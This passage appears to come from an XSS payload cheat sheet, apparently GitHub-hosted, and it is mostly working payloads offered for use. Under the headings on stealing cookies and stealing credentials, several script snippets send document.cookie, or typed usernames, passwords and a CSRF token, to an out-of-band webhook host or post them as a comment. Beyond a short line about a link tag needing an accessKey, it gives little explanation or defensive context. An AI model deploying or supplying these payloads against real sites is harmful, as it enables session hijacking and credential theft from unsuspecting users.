 **Note:**
<br>
```<link>``` tag doesn't render in the page. So, you must need to provide a```accessKey``` in the payload to execute the payload.  

---

## Payloads for Stealing Cookies
```javascript
<script>
fetch('https://your-webhook-url.oastify.com', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
});
</script>
```
```javascript
<script>document.location='https://your-webhook-url.oastify.com//'+document.cookie</script>
```
```javascript
<input type="text" name="username" placeholder="Enter Username">
<input type="password" name="password" placeholder="Enter Password" onchange="hax()">
<input type="hidden" name="csrf" value="">

<script>
  function hax() {
    // Extract CSRF token, username, and password
    var token = document.getElementsByName('csrf')[0].value;
    var username = document.getElementsByName('username')[0].value;
    var password = document.getElementsByName('password')[0].value;

    // Create a FormData object
    var data = new FormData();
    data.append('csrf', token);
    data.append('postId', 8);
    data.append('comment', `${username}:${password}`);
    data.append('name', 'victim');
    data.append('email', 'zenshell@zenshell.ninja');
    data.append('website', 'http://www.zenshell.ninja');

    // Send the data using fetch
    fetch('/post/comment', {
      method: 'POST',
      mode: 'no-cors',
      body: data
    });
  }
</script>
```

---

## Payloads for Stealing Credentials
```html
<input name="username" id="username">
<input type="password" name="password" onchange="if(this.value.length)fetch('https://your-webhook-url.oastify.com',{
  method: 'POST',
  mode: 'no-cors',
  body: username.value+':'+this.value
});">
```

---